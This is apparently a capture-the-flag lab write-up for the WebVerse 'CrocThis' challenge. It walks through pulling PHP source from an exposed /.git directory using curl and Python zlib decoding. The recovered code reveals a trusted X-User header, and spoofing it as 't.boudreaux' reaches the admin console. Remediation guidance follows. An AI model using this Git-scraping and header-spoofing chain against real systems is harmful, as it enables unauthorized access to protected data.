> **Quick note:** CrocThis was reproduced on 15 September 2026 in two fresh WebVerse instances. Caido and Terminal used separate temporary hosts. The hostnames and Git object IDs remain visible because they explain each recorded run. The two literal challenge flags and browser cookies are redacted.

## Executive Summary

CrocThis presented a small public PHP site and an internal operator console at `/admin/`. The normal console request returned `403 Forbidden` because no operator identity was present.

The useful signal was not a guessed header. A public `/.git/HEAD` response exposed the active branch, and the branch reference led into the repository's loose objects. Decoding the commit, tree, and blob objects recovered two PHP files. `admin/index.php` showed where the protected value was read. `includes/gateway.php` showed that the application trusted `X-User` and accepted `t.boudreaux` as an administrator.

The final comparison kept the host, method, path, and unauthenticated request state unchanged. Adding only `X-User: t.boudreaux` changed `/admin/` from `403` to `200` and returned the protected operations console. A second fresh instance repeated the same chain with `curl` and local Python decoding.

> **Confirmed finding:** The staging backend accepted a client-supplied gateway identity header without proving that it came from the trusted gateway. Public Git data made the exact header and accepted administrator identity available to an unauthenticated client.

## 1. Report Profile

| Field | Verified value |
| --- | --- |
| Platform | WebVerse |
| Lab | CrocThis |
| Difficulty | Medium |
| Reproduction date | 15 September 2026 |
| Public application | Bayou Croc Tours |
| Protected route | `GET /admin/` |
| Normal result | `403 Forbidden` without an operator identity |
| Source exposure | Public `/.git/HEAD`, branch ref, and required loose objects |
| Trusted identity header | `X-User` |
| Accepted administrator | `t.boudreaux` |
| Verified result | `200 OK` and the protected operations console |
| Primary weakness | [CWE-290](/cwes/cwe-290/): Authentication Bypass by Spoofing |
| Supporting weakness | [CWE-552](/cwes/cwe-552/): Files or Directories Accessible to External Parties |
| Evidence | Browser, Caido, Terminal, Python, curl, and WebVerse solved state |
| Caido reproduction | Passed |
| Terminal reproduction | Passed on a separate fresh instance |

### Verified Attack Chain

```text
Open a fresh CrocThis instance
  > public Bayou Croc Tours site returns 200
Open /admin
  > redirect to /admin/
Request /admin/ without an operator identity
  > 403 Forbidden
Request /.git/HEAD without authentication
  > refs/heads/main
Request the exposed branch ref
  > current commit object ID
Download and decode the commit object
  > current root tree object ID
Parse the root tree
  > admin and includes tree IDs
Decode admin/index.php
  > console reads the user from cx_gateway_user()
  > authorization uses cx_is_admin()
  > protected value comes from getenv('FLAG')
Decode includes/gateway.php
  > trusted header is X-User
  > accepted administrator is t.boudreaux
Repeat the clean /admin/ baseline
  > 403 Forbidden
Add only X-User: t.boudreaux
  > 200 OK
  > protected Ops Console and redacted settlement key
WebVerse accepts the objective
  > stop
```

## 2. Scope and Evidence Limits

The Caido and Terminal runs used two separate fresh CrocThis instances. Testing stopped after the protected console and WebVerse objective were confirmed.

- The Git traversal followed only object IDs returned by the exposed branch, commit, and tree objects.
- The screenshots show the exact temporary hosts used in each run. A reader must use the host and object IDs returned by their own current instance.
- The binary Git objects were decoded locally. Source text was treated as a guide until the final runtime request confirmed the behavior.
- The final request added one source-derived header. It did not add a cookie, session, password, or second request change.
- No booking form was submitted and no application data was modified.
- No unrelated repository history, credentials, user data, or sibling admin functions were requested.
- The protected settlement key was read once and is replaced with `WEBVERSE{REDACTED}` in the public evidence.
- The result confirms the tested staging configuration. It does not prove that another CrocThis deployment uses the same host, object IDs, source revision, or administrator name.

The primary mapping is [MITRE CWE-290](https://cwe.mitre.org/data/definitions/290.html) because a spoofed identity value bypassed authentication. [MITRE CWE-552](https://cwe.mitre.org/data/definitions/552.html) covers the public repository files that exposed the trust contract.

## 3. Evidence-Led Chronological Reproduction

This case has two connected parts. First, the source must be recovered without guessing future object IDs. Second, the source-derived identity must be checked against the normal denied request.

1. Bind the run to a fresh host and confirm the public application.
2. Open `/admin` and record the canonical `/admin/` denial.
3. Request `/.git/HEAD` without a cookie.
4. Follow the returned branch reference and read the current commit ID.
5. Split each 40-character object ID into the two-character directory and 38-character filename used by Git loose-object storage.
6. Download each object, decompress it locally, and verify that its SHA-1 matches the requested object ID.
7. Follow only the tree and blob IDs printed by the decoded parent object.
8. Read `admin/index.php` and `includes/gateway.php` to identify the exact runtime check.
9. Repeat `/admin/` without the header.
10. Add only the source-derived `X-User` value and compare the result.
11. Stop after the protected console and redacted objective are confirmed.

## 4. Caido/Burp Reproduction

### Step 1: Bind the Fresh Instance

The browser opened the new instance while Caido captured the request. This tied the first track to the temporary host shown in the screenshots.

```http
GET / HTTP/1.1
Host: <CAIDO_LAB_HOST>
```

Equivalent command:

```bash
curl -i --http1.1 'https://<CAIDO_LAB_HOST>/'
```


**Figure 1: Fresh CrocThis instance.** The public page identifies the Bayou Croc Tours application used for the Caido run.



**Figure 2: Root request.** The request records the fresh host and public `/` route.



**Figure 3: Root response.** The server returns `200 OK` and the public PHP application.

### Step 2: Record the Real Admin Baseline

The first request to `/admin` returned a redirect. That is only route behavior, so the security baseline was taken from the canonical `/admin/` path.

```http
GET /admin HTTP/1.1
Host: <CAIDO_LAB_HOST>
```

```text
HTTP/1.1 301 Moved Permanently
Location: https://<CAIDO_LAB_HOST>/admin/
```



**Figure 4: Admin redirect request.** The browser cookie is redacted and is not used later as proof.



**Figure 5: Canonical route.** Apache redirects `/admin` to `/admin/`.



**Figure 6: Denied browser view.** The page says that no operator identity was presented.

```http
GET /admin/ HTTP/1.1
Host: <CAIDO_LAB_HOST>
```

Equivalent command:

```bash
curl -i --http1.1 'https://<CAIDO_LAB_HOST>/admin/'
```



**Figure 7: Canonical baseline request.** This browser-derived capture keeps the exact `/admin/` request visible. The later final baseline removes the cookie before comparison.



**Figure 8: Admin baseline response.** The application returns `403 Forbidden` and the same missing-identity message shown in Chromium.

### Step 3: Confirm the Public Git Entry Point

The Git check was sent without a cookie. `HEAD` did not expose PHP source directly. It provided the reference needed for the next exact request.

```http
GET /.git/HEAD HTTP/1.1
Host: <CAIDO_LAB_HOST>
```

Equivalent command:

```bash
curl -i --http1.1 'https://<CAIDO_LAB_HOST>/.git/HEAD'
```



**Figure 9: Git HEAD request.** No authentication state is present.



**Figure 10: Git HEAD response.** The body returns `ref: refs/heads/main`.

The branch value becomes the next route:

```http
GET /.git/refs/heads/main HTTP/1.1
Host: <CAIDO_LAB_HOST>
```



**Figure 11: Branch reference request.** The path comes directly from `/.git/HEAD`.



**Figure 12: Current commit ID.** This run returned `f7471f36832eae474e47deb24ee40b6dd2c2c65a`.

### Step 4: Turn an Object ID into the Next Request

A Git loose object uses this path format:

```text
40-character object ID:
f7471f36832eae474e47deb24ee40b6dd2c2c65a

first two characters:
f7

remaining characters:
471f36832eae474e47deb24ee40b6dd2c2c65a

request path:
/.git/objects/f7/471f36832eae474e47deb24ee40b6dd2c2c65a
```

Do not copy that ID into a different instance. Use the 40-character value returned by your own `/.git/refs/heads/main` response, then split it after the first two characters.

The response body is zlib-compressed binary data. Caido proves that the exact HTTP object is public, but the raw body is not readable in the response pane. Save the same response body to a local file with `curl`, then decode it with the helper below. This does not contact another route. It only makes the captured object readable and checks that it matches the requested ID.



Example using values from the current instance:

```bash
LAB_HOST='<YOUR_FRESH_CROCTHIS_HOST>'
OBJECT_ID='<40_CHARACTER_ID_FROM_YOUR_RESPONSE>'
OBJECT_PATH="${OBJECT_ID:0:2}/${OBJECT_ID:2}"

curl -sS --http1.1 \
  "https://${LAB_HOST}/.git/objects/${OBJECT_PATH}" \
  -o crocthis_object.bin

python3 crocthis-read-git-object.py \
  crocthis_object.bin \
  --expect "$OBJECT_ID"
```

For a `commit`, the helper prints the root `tree` ID. For a `tree`, it prints each child name and object ID. For a `blob`, it prints the decoded file. Repeat the split, download, and decode process only for the child needed for the next step.

```http
GET /.git/objects/f7/471f36832eae474e47deb24ee40b6dd2c2c65a HTTP/1.1
Host: <CAIDO_LAB_HOST>
```



**Figure 13: Commit object request.** The route is built from the object ID shown in Figure 12.



**Figure 14: Commit object response.** The `159` byte binary body is the zlib-compressed object. Local decoding returns the same SHA-1 and the root tree ID.

### Step 5: Follow the Verified Tree and Blob Chain

The decoded commit printed root tree `8871cfa74a9fe1db2c0e4568f71193764a1aad14`. Its split path is:

```http
GET /.git/objects/88/71cfa74a9fe1db2c0e4568f71193764a1aad14 HTTP/1.1
Host: <CAIDO_LAB_HOST>
```



**Figure 15: Root tree request.** The object ID comes from the decoded commit, not from route guessing.



**Figure 16: Root tree response.** Local parsing identified the `admin` and `includes` child trees.

The root tree returned these relevant entries:

```text
admin     e275e6dceacd1333b0daa503bde190bc28a38973
includes  4ac58a098a204f4db32759d3227632f46b246bdb
```

The `admin` tree was requested next:

```http
GET /.git/objects/e2/75e6dceacd1333b0daa503bde190bc28a38973 HTTP/1.1
Host: <CAIDO_LAB_HOST>
```



**Figure 17: Admin tree request.** The split object path comes from the verified root tree.



**Figure 18: Admin tree response.** Decoding the `54` byte object returned the `admin/index.php` blob ID.

```text
admin/index.php  ad9bf3689b9e6cdf0fbd99c139c0bf0101ed4b6d
```

```http
GET /.git/objects/ad/9bf3689b9e6cdf0fbd99c139c0bf0101ed4b6d HTTP/1.1
Host: <CAIDO_LAB_HOST>
```



**Figure 19: Admin source request.** The request follows the blob ID printed by the decoded admin tree.



**Figure 20: Admin source response.** The binary body decodes to `admin/index.php`. Its relevant behavior is shown below and independently printed in the Terminal run.

```php
$user = cx_gateway_user();

if (!cx_is_admin($user)) {
    http_response_code(403);
    exit;
}

$flag = getenv('FLAG');
```

The root tree also named the `includes` tree:

```http
GET /.git/objects/4a/c58a098a204f4db32759d3227632f46b246bdb HTTP/1.1
Host: <CAIDO_LAB_HOST>
```



**Figure 21: Includes tree request.** This branch is needed because `admin/index.php` calls functions defined under `includes`.



**Figure 22: Includes tree response.** Local parsing returned `gateway.php` and `lib.php`. Only the gateway blob was needed for this claim.

```text
includes/gateway.php  999507f49760a32e2b9ddd070dff6f3af4b98c2d
```

```http
GET /.git/objects/99/9507f49760a32e2b9ddd070dff6f3af4b98c2d HTTP/1.1
Host: <CAIDO_LAB_HOST>
```



**Figure 23: Gateway source request.** The request uses the blob ID printed by the decoded includes tree.



**Figure 24: Gateway source response.** Decoding this blob exposed the exact trust contract:

```php
const CX_ADMINS = ['t.boudreaux'];

function cx_gateway_user(): ?string {
    if (function_exists('apache_request_headers')) {
        foreach (apache_request_headers() as $k => $v) {
            if (strcasecmp($k, 'X-User') === 0) return trim($v);
        }
    }
    return isset($_SERVER['HTTP_X_USER']) ? trim($_SERVER['HTTP_X_USER']) : null;
}

function cx_is_admin(?string $u): bool {
    return $u !== null && $u !== '' && in_array($u, CX_ADMINS, true);
}
```

At this point the source had identified both values needed for a narrow runtime check:

```text
identity header: X-User
accepted administrator: t.boudreaux
```

### Step 6: Compare the Same Admin Request

Before adding the header, a fresh Replay request recorded the clean baseline without a cookie or identity header.

```http
GET /admin/ HTTP/1.1
Host: <CAIDO_LAB_HOST>
```



**Figure 25: Final clean baseline.** There is no `Cookie` and no `X-User` header.



**Figure 26: Denied result.** The route returns `403 Forbidden` and says that no operator identity was presented.

The request was duplicated and only one line was added:

```http
GET /admin/ HTTP/1.1
Host: <CAIDO_LAB_HOST>
X-User: t.boudreaux
```

Equivalent command:

```bash
curl -i --http1.1 \
  -H 'X-User: t.boudreaux' \
  'https://<CAIDO_LAB_HOST>/admin/'
```



**Figure 27: One changed header.** The route and request state match Figure 25. Only the source-derived identity is added.



**Figure 28: Authorized response.** The same route now returns `200 OK` and the Ops Console page.



**Figure 29: Protected value.** The response contains the card-settlement section and `WEBVERSE{REDACTED}`. Only the literal flag is replaced.

### Step 7: Confirm the Solved State



**Figure 30: Challenge solved.** WebVerse accepted the flag, and the Caido instance was not contacted again.

## 5. Terminal/CLI Reproduction

The Terminal track started with a different fresh CrocThis host. It repeated the same order and decoded every Git object locally instead of relying on values from the Caido run.

### Step 1: Fresh Host and Admin Baseline

```bash
LAB_HOST='<YOUR_FRESH_CROCTHIS_HOST>'

curl -i --http1.1 "https://${LAB_HOST}/"
```



**Figure 31: Terminal host binding.** The separate instance returns `200 OK` and the Bayou Croc Tours page.

```bash
curl -i --http1.1 "https://${LAB_HOST}/admin/"
```



**Figure 32: Terminal admin baseline.** The canonical route returns `403 Forbidden` without an operator identity.

### Step 2: Read HEAD and the Current Branch

```bash
curl -i --http1.1 "https://${LAB_HOST}/.git/HEAD"
```



**Figure 33: Public Git HEAD.** The response returns `ref: refs/heads/main`.

```bash
curl -i --http1.1 "https://${LAB_HOST}/.git/refs/heads/main"
```



**Figure 34: Terminal commit ID.** The value is read from this instance before any object path is built.

### Step 3: Download and Verify the Commit

For this recorded run:

```bash
COMMIT_ID='f7471f36832eae474e47deb24ee40b6dd2c2c65a'
COMMIT_PATH="${COMMIT_ID:0:2}/${COMMIT_ID:2}"

curl -sS --http1.1 \
  "https://${LAB_HOST}/.git/objects/${COMMIT_PATH}" \
  -o crocthis_commit.bin

ls -lh crocthis_commit.bin
```



**Figure 35: Commit download.** The compressed object is saved as a `159` byte local file.

The original reproduction used this short Python command:

```bash
python3 -c "import zlib,hashlib; d=zlib.decompress(open('crocthis_commit.bin','rb').read()); print('SHA1:',hashlib.sha1(d).hexdigest()); print(); print(d.split(b'\0',1)[1].decode())"
```

The reusable helper provides the same check with a clear expected-ID guard:

```bash
python3 crocthis-read-git-object.py \
  crocthis_commit.bin \
  --expect "$COMMIT_ID"
```



**Figure 36: Verified commit.** The calculated SHA-1 matches the requested commit ID and the body names root tree `8871cfa74a9fe1db2c0e4568f71193764a1aad14`.

### Step 4: Download and Parse the Root Tree

```bash
ROOT_TREE_ID='8871cfa74a9fe1db2c0e4568f71193764a1aad14'
ROOT_TREE_PATH="${ROOT_TREE_ID:0:2}/${ROOT_TREE_ID:2}"

curl -sS --http1.1 \
  "https://${LAB_HOST}/.git/objects/${ROOT_TREE_PATH}" \
  -o crocthis_root_tree.bin

ls -lh crocthis_root_tree.bin
```



**Figure 37: Root tree download.** The current root tree is stored locally before parsing.

```bash
python3 crocthis-read-git-object.py \
  crocthis_root_tree.bin \
  --expect "$ROOT_TREE_ID"
```



**Figure 38: Root tree entries.** The verified output provides the `admin` and `includes` child IDs used next.

### Step 5: Recover admin/index.php

```bash
ADMIN_TREE_ID='e275e6dceacd1333b0daa503bde190bc28a38973'
ADMIN_TREE_PATH="${ADMIN_TREE_ID:0:2}/${ADMIN_TREE_ID:2}"

curl -sS --http1.1 \
  "https://${LAB_HOST}/.git/objects/${ADMIN_TREE_PATH}" \
  -o crocthis_admin_tree.bin

ls -lh crocthis_admin_tree.bin
```



**Figure 39: Admin tree download.** The object is `54` bytes in its compressed form.

```bash
python3 crocthis-read-git-object.py \
  crocthis_admin_tree.bin \
  --expect "$ADMIN_TREE_ID"
```



**Figure 40: Admin tree entry.** The verified tree names `index.php` and its blob ID.

```bash
ADMIN_INDEX_ID='ad9bf3689b9e6cdf0fbd99c139c0bf0101ed4b6d'
ADMIN_INDEX_PATH="${ADMIN_INDEX_ID:0:2}/${ADMIN_INDEX_ID:2}"

curl -sS --http1.1 \
  "https://${LAB_HOST}/.git/objects/${ADMIN_INDEX_PATH}" \
  -o crocthis_admin_index.bin

ls -lh crocthis_admin_index.bin
```



**Figure 41: Admin source download.** The compressed PHP blob is about `2.0K`.

```bash
python3 crocthis-read-git-object.py \
  crocthis_admin_index.bin \
  --expect "$ADMIN_INDEX_ID"
```



**Figure 42: Admin source.** The source gets the caller from `cx_gateway_user()`, checks `cx_is_admin()`, returns `403` on failure, and reads the protected value from `FLAG` after authorization.

### Step 6: Recover includes/gateway.php

```bash
INCLUDES_TREE_ID='4ac58a098a204f4db32759d3227632f46b246bdb'
INCLUDES_TREE_PATH="${INCLUDES_TREE_ID:0:2}/${INCLUDES_TREE_ID:2}"

curl -sS --http1.1 \
  "https://${LAB_HOST}/.git/objects/${INCLUDES_TREE_PATH}" \
  -o crocthis_includes_tree.bin
```



**Figure 43: Includes tree download.** The ID came from the verified root tree in Figure 38.

```bash
python3 crocthis-read-git-object.py \
  crocthis_includes_tree.bin \
  --expect "$INCLUDES_TREE_ID"
```



**Figure 44: Includes entries.** The tree contains `gateway.php` and `lib.php`. Only `gateway.php` is needed for the authentication claim.

```bash
GATEWAY_ID='999507f49760a32e2b9ddd070dff6f3af4b98c2d'
GATEWAY_PATH="${GATEWAY_ID:0:2}/${GATEWAY_ID:2}"

curl -sS --http1.1 \
  "https://${LAB_HOST}/.git/objects/${GATEWAY_PATH}" \
  -o crocthis_gateway.bin

ls -lh crocthis_gateway.bin
```



**Figure 45: Gateway source download.** The compressed blob is `567` bytes.

```bash
python3 crocthis-read-git-object.py \
  crocthis_gateway.bin \
  --expect "$GATEWAY_ID"
```



**Figure 46: Exact trust contract.** The source says the staging host is not yet behind the gateway, reads `X-User`, and accepts `t.boudreaux` through the strict administrator list.

### Step 7: Repeat the Authorization Comparison

The denied baseline from Figure 32 already fixed the route and unauthenticated state. The final request added only the source-derived header:

```bash
curl -i --http1.1 \
  -H 'X-User: t.boudreaux' \
  "https://${LAB_HOST}/admin/"
```



**Figure 47: Terminal authorization change.** The response changes from `403` to `200` and returns the Ops Console.



**Figure 48: Terminal protected value.** The same response contains `WEBVERSE{REDACTED}`. No further request was made.

## 6. Controls and Results

| Check | Result | Meaning |
| --- | --- | --- |
| Public root | `200 OK` | Binds each run to the intended CrocThis instance. |
| `/admin` | `301` to `/admin/` | Identifies the canonical protected route. |
| `/admin/` without identity | `403 Forbidden` | Records the normal missing-identity behavior. |
| `/.git/HEAD` without a cookie | `200`, `refs/heads/main` | Confirms public Git metadata. |
| Current branch ref | 40-character commit ID | Supplies the first object ID without guessing. |
| Local object verification | Calculated SHA-1 matches each requested ID | Binds decoded content to the downloaded Git object. |
| Tree parsing | Returns named child IDs | Keeps later requests inside the source-derived chain. |
| `admin/index.php` | Calls gateway identity and admin checks | Shows how the protected route makes its decision. |
| `gateway.php` | Reads `X-User`, accepts `t.boudreaux` | Identifies the exact runtime input and accepted identity. |
| Same `/admin/` request plus `X-User` | `200 OK` and protected console | Confirms the authentication bypass at runtime. |
| Separate Terminal instance | Repeats Git recovery and final result | Removes dependence on Caido-specific behavior. |

The `403` to `200` change is not the only proof. The protected page title, settlement section, redacted key, decoded source, and second-client repetition all point to the same narrow result.

## 7. Root Cause and Classification

### Primary: CWE-290, Authentication Bypass by Spoofing

The application accepted `X-User` as the caller's identity. That signal was designed for a trusted gateway, but the staging backend was reachable directly. A public client could therefore claim the accepted administrator name without proving that the gateway had authenticated it.

This is the runtime weakness that opened the protected route, so it is the primary classification.

### Supporting: CWE-552, Files or Directories Accessible to External Parties

The deployed web root also exposed `/.git/HEAD`, the branch ref, and the required loose objects. Those files disclosed the server-side PHP path, the trusted header, and the accepted administrator identity.

The Git exposure supplied the exact values. The header trust mistake turned those values into access. Neither part should be described as broader than the evidence:

- Public Git access does not by itself prove an authorization bypass.
- Source code does not by itself prove that the staging behavior is reachable.
- The final same-route comparison confirms the runtime result.

## 8. Confirmed Impact

An unauthenticated client reached the internal CrocThis operations console by sending the administrator identity in `X-User`. The protected response exposed the card-settlement section and the WebVerse objective value.

The evidence does not confirm write access, booking changes, additional operator accounts, access to another environment, command execution, or a complete repository dump.

## 9. Remediation

1. Remove `.git` and other repository metadata from the deployed web root and container image.
2. Build deployments from a clean release artifact instead of serving a working copy.
3. Block requests for version-control directories and development artifacts at both the edge and web server.
4. Prevent direct public access to the backend. Allow traffic only from the authenticated gateway or use mutual TLS between the gateway and application.
5. Strip every client-supplied `X-User` header at the edge. Add the trusted value only after successful gateway authentication.
6. Bind identity and role information to a signed token or another signal the client cannot forge.
7. Keep authorization in the application even when a gateway performs authentication.
8. Remove settlement secrets from the general console response, rotate the exposed value, and record access to any replacement secret.

## 10. How to Verify the Fix

1. Request `/.git/HEAD`, `/.git/refs/heads/main`, and a known old object path. None should return repository data.
2. Request `/admin/` without authentication. It must remain denied.
3. Send `X-User: t.boudreaux` directly to the public application. The response must still be denied.
4. Send several other client-controlled identity headers. None should create an authenticated user.
5. Authenticate through the real gateway as a normal operator. The application must identify the user but deny administrator-only content.
6. Authenticate through the real gateway as an authorized administrator. Only this path should open the console.
7. Confirm that the protected response no longer contains a long-lived settlement secret.
8. Repeat the checks against the origin address to confirm that the backend cannot be reached around the gateway.

## 11. Conclusion

CrocThis started with a normal `403` on an internal-looking route. The useful path came from the deployment, not from repeatedly guessing headers. Public Git metadata exposed a verifiable chain from the current commit to the two PHP files that controlled the console.

Those files named `X-User` and `t.boudreaux`. Repeating the same `/admin/` request with that one header changed the response to `200` and returned the protected operations page. Caido recorded the request and response chain, while the separate Terminal run showed how to derive and verify every Git object locally.

The important part for reproduction is to use the references from the reader's own fresh instance. Each object ID leads to the next one, and the included Python helper checks the object before its output is trusted.
